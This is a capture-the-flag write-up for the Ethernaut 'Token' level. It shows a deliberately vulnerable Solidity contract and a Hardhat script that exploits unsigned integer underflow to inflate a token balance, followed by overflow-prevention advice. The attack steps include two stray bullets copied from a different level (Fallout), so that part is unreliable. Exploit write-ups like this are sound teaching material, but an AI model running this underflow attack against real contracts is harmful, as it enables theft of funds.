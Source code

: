 ```yaml
---
title: Ethernaut \#05 Token
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Token challenge writeup
---
```


## Token

### Challenge

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

*  What is an odometer?


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

### Background

This is a simple integer overflow bug. The statement `require(balances[msg.sender] - _value >= 0);` is always true since `balances` is a `uint`

### Attack

Call transfer with any amount to trigger an integer overflow.

* call `Fal1out` to become the owner
* call `collectAllocations` collect any funds

#### token-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    tokenAddress = "0xe4452a79b5094A91f8A00Fd65aF30e7745730e29";
    contract = await ethers.getContractAt("Token", tokenAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address   : " + contract.address)
    console.log("Token Balance   : " + await contract.balanceOf(account.address))

    // transfer token funds
    tx = await contract.connect(account).transfer("0x0000000000000000000000000000000000000000", 21)
    receipt = await tx.wait()

    console.log("Token Balance   : " + await contract.balanceOf(account.address))
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/token-solve.js --network rinkeby
Level address   : 0xe4452a79b5094A91f8A00Fd65aF30e7745730e29
Token Balance   : 20
Token Balance   : 115792089237316195423570985008687907853269984665640564039457584007913129639935
```

### Success Message

Overflows are very common in solidity and must be checked for with control statements such as:
```
if(a + c > a) {
  a = a + c;
}
```
An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:
```
a = a.add(c);
```
If there is an overflow, the code will revert.
